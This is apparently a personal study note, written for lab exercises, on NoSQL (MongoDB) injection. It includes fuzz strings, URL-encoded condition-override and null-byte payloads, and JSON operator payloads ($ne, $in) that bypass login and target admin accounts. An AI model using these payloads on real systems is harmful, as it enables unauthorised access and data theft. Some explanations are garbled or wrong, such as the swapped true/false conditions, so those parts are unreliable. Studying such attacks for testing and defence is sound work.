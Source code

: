 SQL injection si when you able to execute database commands from a backend server.
![[Pasted image 20241027171915.png]]
This avaible you to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.
For more information check [[Injection]] in APIS
There are two different types of NO-SQLI:
##### Syntax Injection
The attacker aimed to break the syntax of the Mongo query, imagine you got the following request with this syntax:
```js
db.users.find({ "username": "user1", "password": "pass" })
```
So you could craft a payload which always will return true:
```js
db.users.find({ "username": "user1", "password": { "$ne": null } })
```
We'll see it more clear soon
##### Operator injection 
This occurs when you can use NoSQL query operators to manipulate queries, for example:
```js
db.users.find({ "username": "user1", "password": "pass123" })
```
And then inject:
```js
db.users.find({ "username": "user1", "password": { "$gt": "" } })
```
As the pasword will be always greater than an empty string whis will return false. we'll retake on this later

------
## Syntax Injection
### Testing for Syntax Injection 
So to detect this we need to cause an error on the datas base with the provided strings:
```
'"`
{ ;$Foo} 
$Foo \xYZ
```
So imagine you got a URL with the following query:
```url
https://insecure-website.com/product/lookup?category=fizzy
````
use the following url:
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.
###### Determining which character is proseced
To know what character is causing the issue we can check one by one, as submit `'`, so the mongo db query would be like this:
```
this.category == '''
```
And if this response differ from the original that may indicate that you broke the query syntax, you could confirm this by sending a correct syntax:
```
this.category == '\''
```
###### Confirming conditional behavior
So to confirm this we shpuld to send 2 conditions, one true, `' && 0 && 'x`, and other false, `' && 1 && 'x`:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
and the true one:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
###### Overriding existing conditions
Once you identified this you can attempt to override existing conditions to exploit the vulnerability, for this you can use a JS condition that alwas will be true `'||'1'=='1`
```url
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```
and this result in the following mongodb query:
```js
this.category == 'fizzy'||'1'=='1'
```
Following this we'll solved the lab: [[lab-nosql-injection-detection]]

--------
## Operator Injection
### Null byte
##### Example introduction
For this example will need to understand the `this.release` Mongodb method, which works to bring certain elements and hidden other (for example an application use that to get the 'Actives' users and not get others like 'AFK'). Then we got the following query:
```js
this.category == 'fizzy' && this.released == 1
```
This query limits the results to products with the specified `category` that have also been marked as released (`released == 1`).

This is nice, but There's a conflicting character which cause to ignore all the character after it. So this means that any additional conditions on the MongoDB query are ignored. By adding a null byte (`%00`), as in `category=fizzy'%00`, the injected payload can terminate the query early if MongoDB (or the application layer) stops processing characters after the null byte.

#### So what are the Operator Injection

In some cases we are be able to use operan, which are built in operator of mongodb as the follow ones:
   - NoSQL databases like MongoDB use query operators to specify conditions within queries.
   - Common MongoDB operators include:
     - `$where`: Matches documents satisfying a JavaScript expression.
     - `$ne`: Matches values not equal to the specified value.
     - `$in`: Matches values specified in an array.
     - `$regex`: Matches documents based on a regular expression.
#### **Injecting Query Operators**
   - **JSON Injection**: Operators can be inserted as nested JSON objects, instead of strings.
     - Example: `{"username":"wiener"}` → `{"username":{"$ne":"invalid"}}`
   - **URL-Based Injection**: For URL parameters, try injecting operators directly.
     - Example: `username=wiener` → `username[$ne]=invalid`
   - If this doesn’t work:
     1. Change the HTTP method from `GET` to `POST`.
     2. Set `Content-Type` to `application/json`.
     3. Include JSON data in the body, injecting operators within JSON.

   - **Tools**: Burp Suite’s **Content Type Converter** can help automatically convert requests from URL-encoded to JSON format for easier injection.

#### **Testing for Operator Injection Vulnerabilities**

Consider we got an endpoint accepting credentials, like a `POST` request with JSON:
```json
     {"username":"wiener","password":"peter"}
```
   - To test for operator injection, replace `username` or `password` values with an operator, such as `$ne`:
     ```json
     {"username":{"$ne":"invalid"},"password":"peter"}
     ```
   - If the operator is accepted, it will authenticate users who don’t have the username “invalid.”

If we inject this in both fields we could completely bypass all the authentication
```json
     {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
   - This matches all users where both fields aren’t “invalid,” potentially logging in as the first user in the collection.

#### **Targeting Specific Users**

   - To target a known or guessed username, you can use operators like `$in` with an array of common usernames:
     ```json
     {"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
     ```
   - This payload returns users matching any username in the `$in` array and where the password isn’t empty, potentially exposing privileged accounts. 

Using these techniques, operator injection can enable access control bypasses, unauthorized data access, or privilege escalation within NoSQL applications.

check [[lab-nosql-injection-extract-data]]